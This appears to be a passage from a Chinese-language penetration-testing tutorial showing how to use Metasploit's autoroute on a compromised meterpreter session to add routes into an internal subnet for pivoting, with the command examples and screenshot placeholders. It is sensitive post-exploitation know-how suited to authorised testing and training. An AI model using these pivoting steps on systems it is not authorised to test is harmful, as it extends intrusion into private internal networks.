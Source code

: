 

### 3.2 建立路由信息

autoroute可以在已经获取的meterpreter shell的基础上添加一条去往“内网”的路由。

```
[*] Examples:
[*]   run autoroute -s 10.1.1.0 -n 255.255.255.0  # Add a route to 10.10.10.1/255.255.255.0
[*]   run autoroute -s 10.10.10.1                 # Netmask defaults to 255.255.255.0
[*]   run autoroute -s 10.10.10.1/24              # CIDR notation is also okay
[*]   run autoroute -p                            # Print active routing table
[*]   run autoroute -d -s 10.10.10.1              # Deletes the 10.10.10.1/255.255.255.0 route
[*] Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
```



建立去往172.16.1.0/24的路由信息。

```
run autoroute -s 172.16.1.0/255.255.255.0
```

使用-p参数显示路由信息。

![image-20221224214253303](../../images//image-20221224214253303.png)

```
run autoroute -s 172.16.1.0/24
```

![image-20221224213101807](../../images//image-20221224213101807.png)
